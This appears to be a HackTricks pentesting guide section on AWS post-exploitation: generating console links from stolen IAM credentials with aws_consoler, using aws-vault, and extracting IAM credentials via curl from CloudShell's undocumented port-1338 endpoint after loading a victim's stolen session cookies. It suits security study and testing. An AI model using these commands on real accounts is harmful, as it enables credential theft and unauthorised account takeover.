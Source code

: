 ### Post-Exploitation

#### From IAM Creds to Console

if you have managed to obtain some IAM credentials you might be interested on accessing the web console. You can **generate a web console link** with [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).

```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```

{% hint style="warning" %}
Ensure the IAM user has `sts:GetFederationToken` permission, or provide a role to assume.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) is a tool to securely store and access AWS credentials in a development environment.

```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```

{% hint style="info" %}
You can also use **aws-vault** to obtain an **browser console session**
{% endhint %}

#### From Console to IAM Creds

If you manage to compromise some access to a web console (maybe you stole cookies and could't access the .aws folder), you can obtain some IAM token credentials for that user through **CloudShell**.

CloudShell exposes IAM credentials via an **undocumented endpoint on port 1338**. After loading session cookies from the victim into your browser, you can navigate to CloudShell and issue the following commands to get IAM credentials.

```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```

## References

* [https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/?utm\_source=pocket\_mylist](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/?utm\_source=pocket\_mylist)

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
